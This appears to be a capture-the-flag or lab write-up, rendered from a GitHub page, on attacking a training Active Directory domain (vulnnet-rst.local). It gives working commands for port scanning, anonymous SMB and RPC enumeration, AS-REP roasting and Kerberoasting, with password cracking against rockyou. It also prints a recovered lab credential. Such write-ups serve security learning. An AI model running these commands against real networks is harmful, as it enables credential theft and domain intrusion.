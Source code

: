 ### Phase 1: Advanced Reconnaissance

**Objective**: Systematic service discovery and attack surface identification

```bash
# Comprehensive port scanning with optimized parameters
nmap -p- -Pn $target -v -T5 --min-rate 1500 --max-rtt-timeout 500ms \
     --max-retries 3 --max-scan-delay 10ms --open -oA nmap_results

# SMB service enumeration
smbclient -L \\\\$target\\
```

**Key Findings**: Identified critical services including SMB, RPC, and Kerberos authentication

### Phase 2: Anonymous Access Exploitation

**Objective**: Exploit misconfigured anonymous access permissions

```bash
# Anonymous SMB share access
smbclient -U "" //$target/Vulnet-Enterprise-Anonymous
rpcclient -N $target
```

**Critical Discovery**: Obtained valid usernames through anonymous share access, enabling targeted authentication attacks

### Phase 3: AS-REP Roasting Attack

**Objective**: Exploit accounts with disabled Kerberos pre-authentication

```bash
# Username validation via Kerberos
kerbrute userenum users.txt --dc $target -d vulnnet-rst.local

# AS-REP Roasting execution
impacket-GetNPUsers vulnnet-rst.local/ -dc-ip $target \
                    -usersfile users.txt -format john -outputfile hashes.txt

# Credential recovery
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Result**: Successfully obtained first domain credentials (t-skid:tj072889*)

### Phase 4: Kerberoasting Service Account Attack

**Objective**: Target service accounts with registered SPNs

```bash
# Service ticket requests
impacket-GetUsersSPNs -dc-ip $target 'vulnnet-rst.local/t-skid:tj072889*' -request

# Service account credential recovery  
john krb.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
